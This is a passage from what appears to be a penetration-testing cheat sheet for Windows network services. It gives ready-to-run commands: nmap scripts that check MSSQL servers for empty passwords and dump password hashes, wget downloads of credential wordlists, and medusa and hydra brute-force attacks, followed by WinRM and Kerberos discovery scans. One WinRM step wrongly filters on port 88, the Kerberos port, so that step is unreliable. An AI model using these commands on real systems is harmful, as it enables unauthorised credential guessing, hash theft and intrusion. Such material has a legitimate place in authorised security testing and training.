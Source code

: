 Enumeration:

    nmap -n -sS -sV -p<ports> --script=ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password,ms-sql-dump-hashes --script-args mssql.instance-port=<ports> -iL mssqlServices.txt -d -oA vscans/mssql-enum

Brute force attack (default creds):

    wget https://raw.githubusercontent.com/wintrmvte/medusa_combo_files/master/mssql_default_66.txt
    medusa -M mssql -C mssql_default_66.txt -H mssqlServices.txt -T 4 -t 1 -F

Brute force attack (weak passwords):

    wget https://raw.githubusercontent.com/x90skysn3k/brutespray/master/wordlist/mssql/user -O mssql-users.txt
    wget https://raw.githubusercontent.com/x90skysn3k/brutespray/master/wordlist/mssql/password -O mssql-passwds.txt
    hydra -s 1433 -t 1 -T 6 -L mssql-users.txt -P mssql-passwds.txt -M mssqlServices.txt mssql

### WinRM service

Ports:

```
TCP: 5985, 5986, 47001
```

**Testing**

Discovery (directly from the wire):

```
nmap -sS -Pn -n -p5985,5986,47001 -iL IP-ranges.txt -oG - --open -oA pscans/winrmMachines
cat pscans/winrmMachines.gnmap | grep -E -v 'Nmap|Status' | cut -d' ' -f2 | tee winrmServices.txt
```

Discovery (from previous scans):

```
python3 $HOME/bin/nparser.py -f vscanlatest -p88 -l | cut -d':' -f1 | tee winrmServices.txt
```



### Windows Kerberos

Ports:

```
TCP: 88
```

**Testing**

Discovery (directly from the wire):

```
nmap -sS -Pn -n -p88 -iL IP-ranges.txt -oG - --open -oA pscans/kerberos88
cat pscans/kerberos88.gnmap | grep -E -v 'Nmap|Status' | cut -d' ' -f2 | tee kerberos88Services.txt
```

Discovery (from previous scans):
